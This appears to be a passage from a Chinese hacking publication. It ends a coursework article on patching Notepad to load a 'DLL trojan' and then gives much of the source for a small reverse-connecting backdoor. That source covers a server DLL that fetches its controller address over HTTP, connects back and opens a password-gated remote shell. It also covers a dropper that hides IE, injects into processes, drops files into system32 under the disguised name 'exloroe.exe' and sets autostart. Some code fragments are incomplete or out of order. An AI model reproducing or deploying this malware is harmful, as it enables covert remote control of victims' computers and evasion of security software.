

图7

地址 01004559 处的地址就是上面提到的地址 01003449，该处的指令一会儿要修改为消息处理过程后的地址。再转到 01003449 处查看反汇编代码，如图8所示。



图8

我们可以看到消息处理过程是从地址 01003449 处开始的，一会儿我们将从地址 01003444 这里开始消息处理，只是增加一个简单的 call 指令，利用 5 个 int3 和 mov edi, edi 共 7 个字节，改写一个 call 指令——`call dword ptr [1013014]`（共 6 个字节，后面补一个 nop，其中 1013014 是新添加函数的虚拟地址），如图9所示。修改后，右键选择“复制到可执行文件”->“全部修正”保存修改。



图9

然后再修改先前调用该 01003449 处的赋值，即将地址 01004559 处 `mov dword ptr ss:[ebp-28],Modify.. 01003449`，改成 `mov dword ptr ss:[ebp-28],Modify.. 01003444`（01003449 减去 5 个 int3 所占的 5 字节所得的地址），如图10所示，再次保存修改。退出 OllyDbg，提示保存到磁盘时，另存为 Notepad2.exe。



图10

运行生成的 Notepad2.exe，程序启动时会首先弹出一个对话框，如图11所示。



图11

从结果可以看出，达到了预期的目的。下一步要做的就是把 LoadDll 函数中的代码换成我们的 DLL 木马代码，重新编译运行。再次按照上面的步骤依次进行即可。

这里顺便说一下如何在记事本中添加菜单并执行自己的功能。以我们的作业为例，要求在记事本中添加一个菜单，单击菜单后弹出自己的姓名、学号。

首先，用 ExeScope 打开 Notepad.exe，添加一个菜单，ID 为 66，菜单名为“我的名字（&L）”，保存退出。

……，如图12所示。



图12

其次，修改先前的动态链接库的代码文件，如图13所示。

```cpp
#include <windows.h>

void _cdecl LoadDll(const DWORD reversed, HWND hWnd, UINT msg, WPARAM wParam, LPARAM lParam)
{
    switch(msg) {
    case WM_CREATE:
        MessageBox(hWnd, "This is DLL BackDoor", "Just a test", 0x40);
        break;
    case WM_COMMAND:
        // ...
        MessageBox(hWnd, "作者——20031210064", "古老的马无文化作业", 0x40);
        break;
    }
}
```

图13

重新编译生成 horse.dll 文件，之后的步骤和上面基本一样。这样，我们就可以为任意可执行文件添加菜单，增加程序的功能了。

总结：本文是基于我们选修课的一次作业，思考后，想到如何利用 WM_CREATE 消息给可执行文件添加 DLL 木马功能。其基本思想是：在记事本的消息处理之前加上我们自己的消息处理函数来达到添加功能的目的。因为 Windows 的程序主要是在消息处理过程中增加功能的，而加上的消息处理功能放在动态链接库中，在动态链接库中利用 WM_CREATE 消息执行 DLL 木马代码，从而达到隐藏的目的。

> 【本文涉及的代码（程序），请见随书光盘】

## VC编写精小反弹穿墙木马



文／苏明齐(x&ym)

现在的木马满天飞，比较出名的要数灰鸽子和 PCS share 了，但这些软件免不了被杀毒软件厂商盯得严严实实地。大家都知道，免杀只是相对的，黑客可以通过修改特征码、修改入口点、加花指令、加壳等手段去加密木马，但这些都是有局限性的，毕竟黑客只能修改相对比较出名的杀毒软件的病毒码，如卡巴斯基、NOD 等，并不能保证黑客的木马不被其他的杀毒软件所识别。

其实木马的最初面目就是后门，只要实现最必要的功能就可以了。如果能得到被控制端的 Shell，基本上其他的任何资源都可以获取到了。也就是说，只需要实现一个可控制对方的 DOS 或 CMD 的功能就完全可以了。当然，实现一个控制端可以控制无限个服务端、能自动上线就更好了，还有比如穿透防火墙、插入进程 IE、自动启动之类的也都能实现，也就可称得上是一个完整的小马了。

那么，怎样去编写一个完整的小马呢？好像没有什么动画和文章专门去描述或讲解一个完整的过程，最多也就是写一个小功能或一部分功能之类的，或者干脆放上源代码算了（自己看吧，才不管你是否看得懂呢）。OK，下面我给大家带来小马的编写过程，呵呵。

首先是编程工具的选择。目前流行的开发工具有 C++Builder、Delphi、VB 和 VC。C++Builder 很不错，而且不复杂，适合新手；Delphi 更好，网上 Delphi 木马程序非常多，VB 我不推荐，其编写的服务端需要类库，而且编译出的软件也比较大；VC 则强烈推荐，虽然 VC 比较复杂，代码写得相对比较多，但是 VC 编译出的软件非常精巧，而且运行…效率非常高。所以我们的开发工具就是 VC，毕竟我们要写的软件功能不复杂，而且需要精小，运行效率要求高。

DLL 木马的编写在以前的杂志上已经讲得很多了，今天我们在温习以前的知识的基础上，再研究与分析一下 Dll.dll 的代码。这个 Dll.dll 其实是服务端的核心，所有控制端和服务端通信的代码都是在这里实现的。这个 Dll.dll 是被后面我们要讲到的 App.exe 动态释放出来的，释放的同时通过 App.exe 的处理把它动态地注入到 IE 浏览器中，也就实现了瞒过防火墙的目的。这个 Dll.dll 的具体编写过程我就不一步一步地写了，大家直接看源代码吧！

```c
return 1;
}
```

首先，这个入口函数中最主要的函数只有启动我们的程序的一句 `StartProcessAtStartup(NULL)`，它是启动的主函数，做了 WSA 初始化以及支持多任务相关的操作，并负责调用单线程服务端通信基本的通用方法 `CreateThread(NULL, NULL, StartMyService, NULL, NULL, NULL)`。其次，它也用到了 `CreateThread(NULL, NULL, del, NULL, NULL, NULL)`，它是 ActiveX 启动所必须的。我们在 `HKEY_LOCAL_MACHINE` 注册了 ActiveX 键值的同时，需要在程序被摧毁或退出的时候删除掉 `HKEY_CURRENT_USER` 中所对应的信息。下面我们就具体地看看 `StartProcessAtStartup(NULL)` 内部的方法与实现细节：

#### 服务端编写

闲话少说，直接用 VC 打开我们的工程文件 Dll.dsw 来到 MyDll 处（入口地址，这个是被我们修改过的。每一个 DLL 必须有一个入口点，`DLLMain` 是一个默认的入口函数，负责初始化（Initialization）和结束（Termination）工作。每当一个新的进程或者该进程的新的线程访问 DLL 时，或者访问 DLL 的每一个进程或者线程不再使用 DLL 或者结束时，都会调用 `DLLMain`），其代码如下：

```c
MyDll(HINSTANCE hInstance, DWORD dwReason, LPVOID lpReserved)
{
    UNREFERENCED_PARAMETER(lpReserved);
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        TRACE0("DLL:DLL Initializing!\n");
        if (!AfxInitExtensionModule(DllDLL, hInstance))
            return 0;
        CreateThread(NULL, NULL, del, NULL, NULL, NULL);
        new CDynLinkLibrary(DllDLL);
        StartProcessAtStartup(NULL);
    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {
        TRACE0("DLL:DLL Terminating!\n");
        CreateThread(NULL, NULL, del, NULL, NULL, NULL);
        AfxTermExtensionModule(DllDLL);
    }
}
```

```c
VOID APIENTRY StartProcessAtStartup(PWLX_NOTIFICATION_INFO pInfo)
{
    WSADATA WSAData;
    if (WSAStartup(MAKEWORD(2,2), &WSAData) != 0)
        return;

    HANDLE hmutex = CreateMutex(NULL, FALSE, NULL);
    WaitForSingleObject(hmutex, INFINITE);
    CreateThread(NULL, NULL, StartMyService, NULL, NULL, NULL);
    ReleaseMutex(hmutex);
    CloseHandle(hmutex);
}
```

在 `StartProcessAtStartup(PWLX_NOTIFICATION_INFO pInfo)` 方法中，其最核心的部分就是 `DWORD WINAPI StartMyService(LPVOID lpvoid)` 函数了，该函数的内部如下：

```c
DWORD WINAPI StartMyService(LPVOID lpvoid)
{
    if (!ReadiniFile())
        return -1;

    while (TRUE)
    {
        char buf[1024] = {0};
        if (!GetHttpFile(ini[0].httpsrc, NULL, buf))
        {
            Sleep(1000 * 10);
            TRACE("FALSE!");
            continue;
        }

        // 初始化 IP 与 Port
        DWORD IP = 0;
        USHORT Port = 0;
        if (!DecodeMasterInfor(buf, &IP, &Port))
            continue;

        if (msInfor.dwIP != IP || Port != msInfor.uPort)
        {
            printf("New THREAD!");
            // 获取其中的 IP 与 Port
            msInfor.dwIP = IP;
            msInfor.uPort = Port;
            // 创建新的线程
            CreateThread(NULL, NULL, StartNewConnet, (LPVOID)&msInfor, 0, 0);
        }
        Sleep(10000);
    }
    return 1;
}
```

```cpp
char buf[64] = {0};
int oldopt = 0;
// 取得长度
int len = sizeof(int);
// 存储选项的当前位置
ret = getsockopt(sock, SOL_SOCKET, SO_RCVTIMEO, (char*)&oldopt, &len);
int newopt = 3000;
// 取得选项的新值
ret = setsockopt(sock, SOL_SOCKET, SO_RCVTIMEO, (char*)&newopt, len);
// 从系统缓冲区中读取内容
ret = recv(sock, buf, 64, 0);
ret = setsockopt(sock, SOL_SOCKET, SO_RCVTIMEO, (char*)&oldopt, len);

// 按照各个字符（ASCII）相等则返回 0，否则返回 ASCII 相减的结果
ret = strcmp(buf, "CKAdmin");
if (ret == 0)
{
    // 最主要的方法在这里，CreateCMD 通过预先协议，传送指令
    hp = CreateThread(NULL, NULL, CreateCMD, (LPVOID)sock, 0, 0);
    if (hp == NULL)
        return 0;
    // 跳出循环
    break;
}
else
{
    ret = -1;
    // 关闭 socket
    closesocket(sock);
    sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
}
Sleep(1000);
}
return 1;
}
```

这个函数中比较重要的部分是读取 ini 文件的函数 `ReadIniFile()`，获取 IP 地址的函数 `GetHttpFile(Ini[0], httpsrc, NULL, buf)`，创建新连接的线程函数 `CreateThread(NULL, NULL, StartNewConnet, (LPVOID)&msInfor, 0, 0)`。这里我们主要说一下第 3 个函数 `CreateThread`，其代码如下：

```cpp
DWORD WINAPI StartNewConnet(LPVOID lpvoid)
{
    // 创建 Socket
    SOCKET sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    SOCKADDRIN addr_in = {0};
    // AF_INET 套接字是面向连接的（类型 SOCK_STREAM），将 TCP 用作传输协议
    addr_in.sin_family = AF_INET;
    // 从 ini 读取的 IP 中获取 IP
    addr_in.sin_addr.S_un.S_addr = msInfor.dwIP;
    // 从 ini 读取端口
    addr_in.sin_port = msInfor.uPort;
    // socket_error() 返回一个描述所产生的错误信息
    int ret = SOCKET_ERROR;
    // 建立句柄
    HANDLE hp = NULL;
    while (ret == SOCKET_ERROR)
    {
        ret = connect(sock, (struct sockaddr*)&addr_in, sizeof(addr_in));
        if (ret == 0)
        {
            // 一旦连接就发送验证信息
            send(sock, "Who?", 4, 0);
        }
    }
}
```

以上这些就是 Dll.dll 的主要代码了。至此，所有与控制端通信的（也就是最主要的服务端）部分也就介绍完了。但它毕竟仅仅是个 DLL 的 PE 文件，并不是一个可执行文件，而且我们需要把它动态地注入到 IE 中（当然，完全可以让它注入其他可逃避防火墙之类的进程之中，比如 QQ）。现在有很多木马都不用 DLL 了，自己在执行的时候直接注入到 IE 或者其他的程序之中，这样是可以减小体积，但是我感觉 DLL 也不错，毕竟是动态链接库，很方便移植和共享。

下面我们就来看这 DLL 的幕后操作者。首先我们来看 App.exe 源代码的开头并简要地分析一下。

```cpp
#include "Tiny.h"
#define INIFILE "SystemUp.top"
#define SystemUp "SystemUp.dll"
BOOL InjectExplorer();
BOOL EnablePrivilege();
BOOL CreateIniFile();
```

引入 Tiny.h 主要是优化 App.exe 的体积，其代码如下：

```cpp
// Version 1.10
// xgym
// Version 1.00
#ifndef NDEBUG
#pragma optimize("gsy",on)
#pragma comment(linker,"/RELEASE")
#pragma comment(linker,"/merge:rdata=.data")
#pragma comment(linker,"/merge:text=.data")
#pragma comment(linker,"/merge:reloc=.data")
#pragma comment(linker,"/ENTRY:WinMain")
#pragma comment(lib,"msvcrt.lib")
#define WIN32_LEAN_AND_MEAN
```

这个 Tiny.h 真是太好了，写小程序需要优化体积时，直接把 Tiny.h 引入到源代码中即可。

`InjectExplorer`（注入函数）和 `EnablePrivilege`（提权函数）在以前已有较多分析，这里不再赘述。先从入口函数说起，如图 1 所示。

MyApp（由 WinMain 修改而来）是入口函数，`CreateIniFile()` 以上代码主要用于启动 IE，若 IE 未启动，插入 IE 的 DLL 将失效。`CreateIniFile()` 用来创建 ini 文件。

```cpp
int APIENTRY MyApp(HINSTANCE hInstance, ...)
{
    PROCESS_INFORMATION pi = {0};
    STARTUPINFO si = {0};
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;
    CreateProcess(
        NULL,
        "C:\\Program Files\\Internet Explorer\\iexplore.exe",
        NULL, NULL, 0, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

    CreateIniFile();
    RegCreateKey(...);
    RegSetValueEx(...);
    CreatServer();
    EnablePrivilege();
    InjectExplorer();
    return 0;
}
```

图 1

SystemUp.top 文件中，`CreateIniFile()` 和 `CreatServer()` 之间的代码是 ActiveX 启动方法。App.exe 最终放在 system32 目录，命名为 exloroe.exe，并在 `HKEY_LOCAL_MACHINE` 中设置对应键值与路径。`CreatServer()` 用于创建生成好的 DLL 文件。

在创建函数之前，需要先把 DLL 复制到当前 App.exe 工程目录，然后在 ResourceView 的 Script resources 中插入并引入 DLL 文件（资源类型可自定义），如图 2 所示。



图 2



图 3　图 4

引入以后，我们就可以把 Dll.exe 当成 App.exe 的资源来看待了，下面再看一下代码里面是怎样实现的。整个 `CreatServer()` 函数的代码如下：

```cpp
BOOL CreatServer()
{
    HRSRC hResInfo;
    HGLOBAL hResData;
    DWORD dwSize, dwWritten;
    // 文件句柄
    HANDLE hFile;
    char SystemPath[MAX_PATH] = {0};
    // 获取系统目录
    GetSystemDirectory(SystemPath, MAX_PATH);
    int len = strlen(SystemPath) - 1;
    if (SystemPath[len] != '\\')
        strcat(SystemPath, "\\");
    // 把资源 Dll.dll 重新命名为 SystemUp(SystemUp.dll) 并复制到系统目录中
    strcat(SystemPath, SystemUp);
    // 查询所需的资源
    hResInfo = FindResource(NULL, MAKEINTRESOURCE(IDR_DLL), "Dll");
    if (hResInfo == NULL)
    {
        MessageBox(NULL, "查询所需的资源!", "错误", MB_OK);
    }
    // 获得资源尺寸
    dwSize = SizeofResource(NULL, hResInfo);
    // 装载资源
    hResData = LoadResource(NULL, hResInfo);
    if (hResData == NULL)
        return FALSE;
    // 写文件
    hFile = CreateFile(SystemPath, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
    if (hResData == NULL)
        return FALSE;
    WriteFile(hFile, (LPCVOID)LockResource(hResData), dwSize, &dwWritten, NULL);
    CloseHandle(hFile);
    return TRUE;
}
```

上面代码的注释已经非常清晰了，大家看了就会明白的。这里最主要的代码是 `hResInfo = FindResource(NULL, MAKEINTRESOURCE(IDR_DLL), "Dll")`，也就是写明要获取资源的 ID 和类型。最后还用到了 `CopySelfToSysdir()` 函数，其代码如下：

```cpp
BOOL CopySelfToSysdir()
{
    // 我们要隐藏在 %SystemRoot%\system32 下虚假的程序名为 exloroe.exe
    const TCHAR* fakeExeName = "exloroe.exe";
    TCHAR szDestPath[MAX_PATH];
    TCHAR szTmp[MAX_PATH] = {0};
    // 获得程序自身的全路径
    if (!GetModuleFileName(NULL, szTmp, sizeof(szTmp)))
    {
        return FALSE;
    }
    // 获取系统目录路径
    if (!GetSystemDirectory(szDestPath, MAX_PATH))
    {
        return FALSE;
    }
    // 得到目标全路径 %SystemRoot%\system32\exloroe.exe
    lstrcat(szDestPath, "\\");
    lstrcat(szDestPath, fakeExeName);
    // 执行自拷贝操作，把自身复制到系统目录下
    if (!CopyFile(szTmp, szDestPath, FALSE))
    {
        return FALSE;
    }
    return TRUE;
}
```

这样就实现了程序的自我复制到系统目录的过程，服务端的编写也就全部完成了。

#### 控制端编写

控制端我就不详细说明了，大家可以看我的源代码仔细研究一下。我的控制端其实是把服务端当成资源合并过来，这样在创建服务端的时候动态地产生了。合并方法和 Dll.dll 加入到 App.exe 中的方法是一样的。

接下来简单介绍一下我编写的木马的功能和界面。这个木马支持 Windows 2000/XP/2003 系统，其特点是无进程、无端口、ActiveX 启动，保证开机运行，利用 DLL 远程线程注入到 IE 中，可以突破大多数防火墙。本身体积很小，只有 6KB 左右，客户端支持多线程，服务端互不影响，可控制多个服务端。服务端和客户端总共只有 20KB 左右，随身携带非常方便，可用于外网控制内网、跨局域网访问（远程标准版或端口映射）。其功能包括支持密码验证、反向远…远程终端（Shell）。

下面是软件应用时的截图，主界面如图5所示，创建服务端时的界面如图6所示，服务端上线时的界面如图7所示，连接到服务端后要求密码验证的窗口如图8所示，验证密码后返回最终的窗口如图9所示。之后我们发送个 `net user` 的指令，看看返回的窗口，如图10所示。



